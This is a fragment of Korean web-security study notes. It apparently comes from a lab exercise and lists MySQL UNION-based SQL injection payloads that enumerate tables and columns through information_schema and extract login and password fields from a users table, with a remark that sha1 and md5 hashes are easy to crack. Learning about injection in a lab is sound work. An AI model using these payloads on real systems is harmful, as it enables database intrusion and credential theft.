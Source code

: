 ![image-20200903142037023](secure_day4.assets/image-20200903142037023.png)

information_schema db에 대해 좀 안다면,

```
0' union select 1,table_name,3,4,5,6,7 from information_schema.tables#
```

![image-20200903144037494](secure_day4.assets/image-20200903144037494.png)

마찬가지로

```
0' union select null, table_schema, table_name, column_name, null, null, null from information_schema.columns where table_schema!='mysql' and table_schema!=
information_schema#

0' union select null, table_schema, table_name, column_name, null, null, null from table_schema#

0' union select 1,login,3,4,password,6,7 from users#
```

sha1과 md5는 뚫기 쉽다.

---

여기선 무엇을 해야할까? 주소창에 해야한다.
